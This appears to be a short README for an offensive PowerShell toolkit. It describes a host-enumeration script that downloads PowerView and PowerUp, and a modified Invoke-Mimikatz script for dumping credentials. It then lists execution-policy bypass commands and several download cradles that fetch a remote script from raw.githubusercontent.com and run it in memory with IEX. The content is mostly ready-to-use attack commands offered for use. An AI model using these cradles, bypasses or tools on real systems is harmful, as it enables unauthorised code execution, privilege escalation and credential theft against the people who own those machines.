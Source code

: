 ```1.ps1``` does basic enumeration of host and pulls down Powerview and PowerUp modules from their original source and attempts to load as modules.

```Invoke-Mimikatz_MOD.ps1``` has been modded to execute on recent Windows versions based on - https://github.com/mitre/caldera/issues/38#issuecomment-396055260

# Bypass EP
Start PowerShell from cmd.exe:

```powershell.exe -ep bypass```

If already running:

```Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass```

```Set-ExecutionPolicy -Scope Process -ExecutionPolicy Restricted```

```$Env:PSExecutionPolicyPreference = 'Bypass'```


# Run Script cradles

```iex (iwr "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1")```

```IEX (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1").Content```



```IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')```




# More Cradles and general good refs
https://github.com/In3x0rabl3/OSEP/blob/main/osep_reference.md#download-cradle
